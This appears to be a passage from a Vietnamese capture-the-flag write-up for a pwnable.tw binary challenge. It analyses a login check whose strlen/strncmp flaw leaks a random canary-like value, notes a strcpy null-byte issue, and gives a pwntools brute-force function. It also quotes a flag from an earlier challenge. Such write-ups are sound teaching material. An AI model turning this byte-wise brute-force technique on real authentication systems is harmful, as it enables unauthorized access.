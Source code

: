 ```Here is your flag: FLAG{F1l3_Str34m_is_4w3s0m3}```
- option 1 : 

check ```unk_202014``` , nếu ```unk_202014``` là 1 giá trị không NULL thì sẽ gán NULL , nếu không thì gọi hàm ```sub_DEF((const char *)random);```

![image](/assets/images/Pwnable.tw/31.png)

sub_DEF  : 

hàm này đơn giản là read 127 byte vào ```buf``` , sau đó nó dùng strlen() để tính độ dài của ```chuỗi``` , lưu ý strlen() sẽ dừng khi gặp byte null ta sẽ chú ý điều này , tiếp theo so sánh chuỗi random với chuỗi ta vừa nhập , nếu đúng thì gán ```unk_202014``` = 1
![image](/assets/images/Pwnable.tw/32.png)

- option 2 là end chương trình

- option 3 : check ```unk_202014``` có NULL không , nếu NULL thì in ```Invalid choice``` , nếu không thì gọi ```magic_copy```

```magic_coppy``` : read 63 byte vào ```src``` và coppy vào a1 , ở đây ta cũng cần chú ý strcpy sẽ dừng khi gặp byte null
![image](/assets/images/Pwnable.tw/33.png)


vì 1 số lí do IDA của mình không hiện đoạn này , check xem giá trị random có bằng với giá trị ban đầu không , nếu không thì gọi hàm ```__stack_chk_fail()``` , đây giống như 1 giá trị canary nhưng ở đây là nó được tạo bằng /dev/null chứ không phải được tạo khi biên dịch

![image](/assets/images/Pwnable.tw/34.png)

EXPLOIT 

- trước hết có lẽ là cần tìm cách vượt qua được giá trị random này , ta sẽ tận dụng bug ở hàm ```check``` để brute_force random_value , ở đây strlen(s) tính độ dài chuỗi ta nhập vào và strncmp() sẽ check từng byte với random_value , nó sẽ lấy v1 là length() của chuỗi ta nhập vào , vậy ta chỉ cần gửi số byte cần brute_force + với 1 byte null , cứ như vậy ta sẽ có random_value

![image](/assets/images/Pwnable.tw/35.png)

```
def bf():
    random_value = b''
    for i in range(16):
        p.sendafter(b'>>',b'1') #log out
        for j in range(1,256):
            p.sendafter(b'>> ',b'1')
            random_value += p8(j)
            p.sendafter(b'Your passowrd :',random_value + b'\x00')
            if b'Login Success' in p.recvline():
                break
            else:
                random_value = random_value[:-1]
    return random_value

